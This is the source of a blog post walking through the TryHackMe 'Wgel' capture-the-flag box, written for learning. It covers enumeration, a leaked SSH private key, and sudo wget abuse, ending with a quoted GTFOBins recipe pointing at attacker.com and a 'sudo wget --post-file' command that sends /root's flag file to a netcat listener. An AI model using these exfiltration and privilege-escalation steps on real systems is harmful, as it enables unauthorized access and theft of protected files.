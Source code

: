 ```yaml
---
layout: post
title:  "THM - Wegl"
date:   2020-08-07 18:00:00 +1000
category: hacking
---
```


## Introduction
*Can you exfiltrate the root flag?*  

Dunno, but since this is a easy rated box I give myself a fighting chance. Let's begin.

## Ports
nmap says we've got 22 (SSH) and 80 (HTTP) only.  

## Webserver
The homepage for the website is just the Apache default page, with one exception - a comment for **Jessie**. So perhaps that's our username.

Gobuster is a place to start:

``
root@kali:/opt/tryhackme/wgel# gobuster dir -u http://10.10.34.196 -w /usr/share/wordlists/dirb/common.txt
``

This turns up one interesting directory - sitemap. Checking that we get a whole host of pages; basically an incomplete blog/business site. It's called *unapp*, but that doesn't turn up anything on searchsploit, so let's gobuster in the sitemap directory:

``
root@kali:/opt/tryhackme/wgel# gobuster dir -u http://10.10.34.196/sitemap -w /usr/share/wordlists/dirb/common.txt
``

Doing that, we find **.ssh/id_rsa**. Bingo.

## Jessie
Once we've downloaded the ssh key, we can *chmod 600* it and then login:

``
root@kali:/opt/tryhackme/wgel# ssh -i id_rsa jessie@10.10.34.196
``

Then we run *sudo -l*:

{% highlight shell %}
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
{% endhighlight %}

## Wget
Jessie has got the user flag, and we can run wget as root. What can we do with that? Well, the box hint was about exfiltrating the root flag.

[GTFOBins](https://gtfobins.github.io/gtfobins/wget) says we can exfiltrate files:

>Send local file with an HTTP POST request. Run an HTTP service on the attacker box to collect the file. Note that the file will be sent as-is, instruct the service to not URL-decode the body. Use --post-data to send hard-coded data.

>URL=http://attacker.com/  
LFILE=file_to_send  
wget --post-file=$LFILE $URL  

So let's try that:
{% highlight shell %}
jessie@CorpOne:/$ URL=http://10.9.10.123:1234/  
jessie@CorpOne:/$ LFILE=/root/root_flag.txt  
jessie@CorpOne:/$ sudo wget --post-file=$LFILE $URL  
--2020-08-07 07:02:51--  http://10.9.10.123:1234/  
Connecting to 10.9.10.123:1234... connected.  
{% endhighlight %}

And on the receiving end I used netcat:

{% highlight shell %}
root@kali:/opt/tryhackme/wgel# nc -nvlp 1234  
Ncat: Version 7.80 ( https://nmap.org/ncat )  
Ncat: Listening on :::1234  
Ncat: Listening on 0.0.0.0:1234  
Ncat: Connection from 10.10.34.196.  
Ncat: Connection from 10.10.34.196:45494.  
POST / HTTP/1.1  
User-Agent: Wget/1.17.1 (linux-gnu)  
Accept: */*  
Accept-Encoding: identity  
Host: 10.9.10.123:1234  
Connection: Keep-Alive  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 33  

b1b968b37519ad1daa6408188649263d
{% endhighlight %}

Nice.

